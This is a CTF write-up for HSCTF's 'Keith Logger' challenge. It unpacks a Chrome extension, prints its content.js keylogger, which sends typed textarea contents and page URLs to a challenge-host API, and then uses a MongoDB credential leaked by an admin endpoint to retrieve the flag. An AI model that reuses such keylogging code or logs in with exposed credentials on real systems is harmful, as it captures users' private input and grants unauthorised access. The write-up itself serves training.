 ## Keith Logger
### Category : Misc

---
We are given a chrome extension. It was a fairly easy challenge, the reason why I am writing this Write-Up is to tell, that chrome extension (.crx) files are nothing more than zip files. 

On unzipping the extension, we get three files

```
      content.js                extension.crx 
      jquery-3.3.1.min.js       manifest.json 
```

`content.js`
```
var timeout_textarea;
var xhr_textarea;

$("textarea").on("keyup", function() {
  if (timeout_textarea) {
    clearTimeout(timeout_textarea);
  }

  if (xhr_textarea) {
    xhr_textarea.abort();
  }

  timeout_textarea = setTimeout(function() {
    var xhr = new XMLHttpRequest();
    /*
    xhr.open(
      "GET",
      "https://keith-logger.web.chal.hsctf.com/api/record?text=" +
        encodeURIComponent($("textarea").val()) +
        "&url=" + encodeURIComponent(window.location.href),
      true
    );*/


    // send a request to admin whenever something is logged, not needed anymore after testing
    /*
    xhr.open(
      "GET",
      "https://keith-logger.web.chal.hsctf.com/api/admin",
      true
    );*/

    xhr.send();
  }, 2000);
});
```

On visiting `https://keith-logger.web.chal.hsctf.com/api/admin` we get, 
```
didn't have time to implement this page yet. use admin:keithkeithkeith@keith-logger-mongodb.web.chal.hsctf.com:27017 for now
```

We get a new link, an access to mongodb.

Using robo3t to connect to robomongo

![Image](1.png)
![Image](2.png)

```
FLAG : hsctf{watch_out_for_keyloggers}
```
